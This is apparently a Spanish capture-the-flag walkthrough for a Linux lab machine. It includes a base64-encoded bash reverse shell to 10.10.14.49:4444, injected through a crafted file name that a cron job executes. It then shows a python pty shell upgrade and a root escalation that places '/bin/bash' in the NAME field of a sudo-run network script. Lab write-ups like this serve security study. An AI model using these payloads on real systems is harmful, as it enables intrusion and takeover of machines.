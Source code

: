 ![[Pasted image 20250619163210.png]]

```bash
YmFzaCAtYyAiYmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNC40OS80NDQ0IDA+JjEi
```
![[Pasted image 20250619163224.png]]


#### utilizamos touch para que se ejecute el cron 

>Nos ponemos en escucha por el puerto que hayamos elegido 

![[Pasted image 20250619163432.png]]

```bash
touch -- ';echo YmFzaCAtYyAiYmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNC40OS80NDQ0IDA+JjEi |base64 -d|bash'
```

>en nuestra terminal en escucha por el puerto 4444 deberíamos recibir una shell como guly (el cron se ejecuta cada 3 minutos igual tenemos que esperar un poco)

#### tratamos la shell con python
![[Pasted image 20250619163935.png]]

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

>ctrl +z

![[Pasted image 20250619162653.png]]


> vemos "id" para saber los grupos en los que estamos miramos "sudo -l" para ver si tenemos acceso a algun binario como root

![[Pasted image 20250619164133.png]]

>descubrimos con "sudo -l" un programa .sh llamado "changenames.sh" que podemos ejecutar como root sin pass

#### leemos lo que hay en el archivo /usr/local/sbin/changename.sh
![[Pasted image 20250619164258.png]]

#### ejecutamos el programa con sudo 

```bash
sudo /usr/local/sbin/changename.sh
```

21 rellenamos los campos  con cualquier palabra pero en NAME pondremos a demas /bin/bash

```bash
interface NAME:
cualquiercosa /bin/bash
interface PROXY_METHOD:
cualquiercosa
interface BROWSER_ONLY:
cualquiercosa
interface BOOTPROTO:
cualquiercosa 
```
